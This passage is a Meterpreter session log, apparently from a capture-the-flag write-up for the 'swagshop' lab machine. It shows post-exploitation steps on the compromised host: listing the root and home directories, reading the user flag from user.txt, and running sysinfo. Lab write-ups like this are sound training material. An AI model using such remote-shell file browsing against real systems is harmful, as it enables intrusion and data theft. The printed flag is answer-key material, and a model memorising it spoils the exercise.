 ```
Listing: /
==========

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
40755/rwxr-xr-x   4096      dir   2019-05-02 19:53:49 +0100  bin
40755/rwxr-xr-x   1024      dir   2019-05-02 19:56:39 +0100  boot
40755/rwxr-xr-x   3920      dir   2019-07-22 00:28:03 +0100  dev
40755/rwxr-xr-x   4096      dir   2019-05-08 13:11:43 +0100  etc
40755/rwxr-xr-x   4096      dir   2019-05-02 19:48:40 +0100  home
100644/rw-r--r--  39840285  fil   2019-05-02 19:56:39 +0100  initrd.img
100644/rw-r--r--  39481711  fil   2019-05-02 19:56:20 +0100  initrd.img.old
40755/rwxr-xr-x   4096      dir   2019-05-02 19:54:29 +0100  lib
40755/rwxr-xr-x   4096      dir   2019-05-02 19:53:00 +0100  lib64
40700/rwx------   16384     dir   2019-05-02 19:36:29 +0100  lost+found
40755/rwxr-xr-x   4096      dir   2019-05-02 19:36:38 +0100  media
40755/rwxr-xr-x   4096      dir   2017-08-01 12:16:21 +0100  mnt
40755/rwxr-xr-x   4096      dir   2017-08-01 12:16:21 +0100  opt
40555/r-xr-xr-x   0         dir   2019-07-22 00:27:52 +0100  proc
40700/rwx------   4096      dir   2019-05-08 14:21:30 +0100  root
40755/rwxr-xr-x   920       dir   2019-07-22 11:25:06 +0100  run
40755/rwxr-xr-x   12288     dir   2019-05-02 19:54:29 +0100  sbin
40755/rwxr-xr-x   4096      dir   2019-05-02 19:55:50 +0100  snap
40755/rwxr-xr-x   4096      dir   2017-08-01 12:16:21 +0100  srv
40555/r-xr-xr-x   0         dir   2019-07-22 00:27:56 +0100  sys
41777/rwxrwxrwx   4096      dir   2019-07-26 13:19:12 +0100  tmp
40755/rwxr-xr-x   4096      dir   2019-05-02 19:36:36 +0100  usr
40755/rwxr-xr-x   4096      dir   2019-05-02 19:46:14 +0100  var
100600/rw-------  7197208   fil   2019-04-03 22:23:13 +0100  vmlinuz
100600/rw-------  7095888   fil   2017-07-18 16:00:58 +0100  vmlinuz.old

meterpreter > pwd
/
meterpreter > cd home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-05-08 14:21:09 +0100  haris

meterpreter > cd haris
meterpreter > ls
Listing: /home/haris
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  54    fil   2019-05-02 19:56:49 +0100  .Xauthority
20666/rw-rw-rw-   0     cha   2019-07-22 00:28:02 +0100  .bash_history
100644/rw-r--r--  220   fil   2019-05-02 19:48:40 +0100  .bash_logout
100644/rw-r--r--  3771  fil   2019-05-02 19:48:40 +0100  .bashrc
40700/rwx------   4096  dir   2019-05-02 19:49:31 +0100  .cache
100600/rw-------  1     fil   2019-05-08 14:20:30 +0100  .mysql_history
100644/rw-r--r--  655   fil   2019-05-02 19:48:40 +0100  .profile
100644/rw-r--r--  0     fil   2019-05-02 19:49:38 +0100  .sudo_as_admin_successful
100644/rw-r--r--  33    fil   2019-05-08 14:01:36 +0100  user.txt

meterpreter > cat user.txt
a448877277e82f05e5ddf9f90aefbac8
meterpreter > sysinfo
Computer    : swagshop
```
